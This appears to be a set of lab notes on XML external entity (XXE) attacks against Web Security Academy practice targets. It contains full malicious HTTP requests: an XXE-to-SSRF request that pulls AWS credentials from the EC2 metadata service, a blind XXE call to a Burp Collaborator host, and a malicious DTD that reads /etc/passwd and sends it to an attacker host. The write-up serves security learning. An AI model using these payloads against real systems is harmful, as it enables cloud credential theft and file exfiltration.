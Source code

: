 # Attacks

### Using XXE to exfiltrate secret key from EC2 instance: Chained XXE + SSRF

`Malicious POST request`

```bash
POST /product/stock HTTP/1.1
Host: ac671fb81fcc504080b042be005f0023.web-security-academy.net
Connection: close
Content-Length: 223
Sec-Fetch-Mode: cors
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.100 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: https://ac671fb81fcc504080b042be005f0023.web-security-academy.net
Sec-Fetch-Site: same-origin
Referer: https://ac671fb81fcc504080b042be005f0023.web-security-academy.net/product?productId=10
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=XXXXXXXXXXXXXXXXXXXX

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]><stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

`Response:`

```bash
"Invalid product ID: {
  "Code" : "Success",
  "LastUpdated" : "2019-08-22T16:39:15.242880Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "74kLixnlUZcsLknsyMq5",
  "SecretAccessKey" : "QRN6iUdJkj6CA5yt82cF0jfdh5DIgKx3RDQq5pBZ",
  "Token" : "kYcYbyXcZU7137kRXZj9mKrbWYvjXpd06s7renO6SYBYoTKBOSnQo3Tiq6GztUoOIl67AH37YZNZlvtxkvAVFygPPW54n49jNY2FvEGFVp6Jj6Pdgs6mBLcChJ6JX7CDbAe7g3YqDhYBt65PnJYVFuO7VSgNgrx8KYGWdf1l0GwGjfEuFjocZYEojx57XP8nGTW9srH1n0pZAk8GANWS62XUhZE4V1gmn7yvcnY3ORQWOHjJEb46KKNG1yPJgOY8",
  "Expiration" : "2025-08-20T16:39:15.242880Z"
}"
```

### Blind XXE

`Request`

```bash
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE stockCheck [<!ENTITY xxe SYSTEM "http://e2h7bnoif4z2eoxetblzsjdel5r1fq.burpcollaborator.net">]><stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

`Response`

```bash
HTTP Request through the Burp Collab. Window
```

### Blind XXE Using Param. Entities to exfiltrate data

`Payload`

`https://acc51fc41e40cc5c80f320ff01f500d0.web-security-academy.net/exploit`

```xml
# this is our malicious dtd hosted in our server
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

`Request`

```bash
POST /product/stock HTTP/1.1
Host: acb51f871ea6cc14807d20680098001c.web-security-academy.net
Connection: close
Content-Length: 228
Sec-Fetch-Mode: cors
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.100 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: https://acb51f871ea6cc14807d20680098001c.web-security-academy.net
Sec-Fetch-Site: same-origin
Referer: https://acb51f871ea6cc14807d20680098001c.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=xrE9xNnbe9G6HNdNkxEzu7RMWW3a1LjZ

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://acc51fc41e40cc5c80f320ff01f500d0.web-security-academy.net/exploit"> %xxe;]><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

The main part of the request is at tghe bottom where we call our malicious `dtd` to exfiltrate data, once the `XML` parser makes the request we should now have access to the data it grabbed because of the call in out payload to `SYSTEM file:///etc/hostname`



